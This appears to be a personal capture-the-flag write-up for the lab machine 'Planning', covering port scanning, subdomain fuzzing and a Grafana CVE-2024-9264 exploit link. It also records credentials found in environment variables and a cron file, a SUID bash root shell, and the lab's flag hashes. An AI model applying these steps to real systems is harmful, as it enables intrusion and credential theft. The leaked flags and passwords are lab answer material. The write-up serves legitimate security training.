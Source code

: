 # Open Ports

```rb
Increasing send delay for 10.10.11.68 from 0 to 5 due to 28 out of 69 dropped probes since last increase.
Nmap scan report for planning.htb (10.10.11.68)
Host is up (0.19s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 62:ff:f6:d4:57:88:05:ad:f4:d3:de:5b:9b:f8:50:f1 (ECDSA)
|_  256 4c:ce:7d:5c:fb:2d:a0:9e:9f:bd:f5:5c:5e:61:50:8a (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun 22 10:19:49 2025 -- 1 IP address (1 host up) scanned in 84.61 seconds
```


# Vhosts


```rb
ffuf -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://planning.htb -H "Host:FUZZ.planning.htb" -fs 178
```

FOUND : grafana Running at grafana.planning.htb


Grafana Version 11.0.0


# Exploit

`v11.0.0 is vuln. to **CVE-2024-9264**-RCE-Exploit in Grafana via SQL Expressions`


https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit



# User Found
`In the env variables we found User: enzo Password:` RioTecRANDEntANT!
```rb
# env
GF_PATHS_HOME=/usr/share/grafana
HOSTNAME=7ce659d667d7
AWS_AUTH_EXTERNAL_ID=
SHLVL=1
HOME=/usr/share/grafana
OLDPWD=/usr/share/grafana
AWS_AUTH_AssumeRoleEnabled=true
GF_PATHS_LOGS=/var/log/grafana
_=passwd
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
GF_PATHS_PLUGINS=/var/lib/grafana/plugins
TERM=xterm-256color
PATH=/usr/local/bin:/usr/share/grafana/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
AWS_AUTH_AllowedAuthProviders=default,keys,credentials
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
AWS_AUTH_SESSION_DURATION=15m
GF_SECURITY_ADMIN_USER=enzo
GF_PATHS_DATA=/var/lib/grafana
GF_PATHS_CONFIG=/etc/grafana/grafana.ini
AWS_CW_LIST_METRICS_PAGE_LIMIT=500
PWD=/etc

```


# UserFlag

599b4ae734f9feef0c92e0452b4dc35f



# PE

1. We found service running on port 8000  (but requires Creds)
2. Creds found at : /opt/crontab/crontab.js

cat crontab.db
{"name":"Grafana backup","command":"/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz","schedule":"@daily","stopped":false,"timestamp":"Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740774983276,"saved":false,"_id":"GTI22PpoJNtRKg0W"}
{"name":"Cleanup","command":"/root/scripts/cleanup.sh","schedule":"* * * * *","stopped":false,"timestamp":"Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740849309992,"saved":false,"_id":"gNIRXh1WIc9K7BYX"}


USERNAME = root
Password= P4ssw0rdS0pRi0T3c


# Added A cronjob 

![[Pasted image 20250630210202.png]]

In the ssh shell

```sh
enzo@planning:/tmp$ ./bash -p
bash-5.2# 
```

## YYAYAYAYAYAYYAYYAYAYAY Rooottttt


5c765f4378db2d97087ffcea5d257ba1